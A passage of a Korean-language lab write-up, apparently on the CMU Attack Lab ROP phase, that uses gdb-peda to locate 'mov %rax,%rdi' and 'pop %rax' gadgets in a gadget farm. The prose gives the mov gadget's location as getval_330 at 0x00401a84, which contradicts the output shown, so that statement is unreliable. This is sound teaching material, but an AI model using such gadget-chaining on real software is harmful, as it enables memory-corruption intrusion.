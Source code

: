  우선 우리는 `rdi`에 값을 적재해야하기 때문에, `pop %rdi`를 할 수 있는 가젯이 있는지 찾아보아야 한다. 이를 위해 `gdb-peda`의 `ropsearch`를 이용할 것인데, 위와 같이 `farm`에서 `pop %rdi`를 할 수 있는 가젯이 존재하지 않는 것을 알 수 있었다. 즉, 우리는 `rdi`로 값을 넣을 수 있는 다른 가젯을 찾아보아야 할 것이다.

###### Check `mov` Gadget Exist

```r
gdb-peda$ ropsearch "mov ?, rdi" 0x401a53 0x401b6c
Searching for ROP gadget: 'mov ?, rdi' in range: 0x401a53 - 0x401b6c
0x00401a70 : (b'4889c7c3')	mov %rax,%rdi; retq
0x00401a62 : (b'4889c7c3')	mov %rax,%rdi; retq
0x00401a69 : (b'4889c792c3')	mov %rax,%rdi; xchg %eax,%edx; retq
```

```r
gdb-peda$ disas 0x00401a70
Dump of assembler code for function addval_138:
   0x0000000000401a6e <+0>:	lea    -0x3c3876b8(%rdi),%eax
   0x0000000000401a74 <+6>:	retq   
End of assembler dump.
```

```r
gdb-peda$ x/2i 0x00401a70
   0x401a70 <addval_138+2>:	mov    %rax,%rdi
   0x401a73 <addval_138+5>:	retq   
```

 우리는 `rdi`에 값을 쓸 수 있는 다른 가젯을 찾아보아야 하고, 그렇기 때문에 `rdi`로 값을 `mov` 할 수 있는 가젯이 있는지 찾아보았다. `"mov ?, rdi"` 를 옵션으로 farm에서 `ropsearch`를 해본 결과, `mov %rax,%rdi`를 할 수 있는 가젯을 찾을 수 있었다.  이 가젯은 `getval_330`에 위치하는데, 이것을 `0x00401a84`부터 읽기 시작하면 `mov %rax,%rdi; retq;`가 되므로, `mov %rax,%rdi`를 하는 가젯으로 사용할 수 있다. 그러면 이제, `rax`에 우리가 원하는 값을 쓰기 위한 가젯을 찾아볼 것이다.

##### Find Gadget to Write to `rax`

###### Check `pop` Gadget Exist

```r
gdb-peda$ ropsearch "pop rax" 0x401a53 0x401b6c
Searching for ROP gadget: 'pop rax' in range: 0x401a53 - 0x401b6c
0x00401ad3 : (b'5889e0c3')	pop %rax; mov %esp,%eax; retq
0x00401a84 : (b'58909090c3')	pop %rax; nop; nop; nop; retq
0x00401a55 : (b'58909090c3')	pop %rax; nop; nop; nop; retq
```

```r
gdb-peda$ disas 0x00401a84
Dump of assembler code for function getval_330:
   0x0000000000401a83 <+0>:	mov    $0x90909058,%eax
   0x0000000000401a88 <+5>:	retq   
End of assembler dump.
```

```r
gdb-peda$ x/5i 0x00401a84
   0x401a84 <getval_330+1>:	pop    %rax
   0x401a85 <getval_330+2>:	nop
   0x401a86 <getval_330+3>:	nop
   0x401a87 <getval_330+4>:	nop
   0x401a88 <getval_330+5>:	retq
```
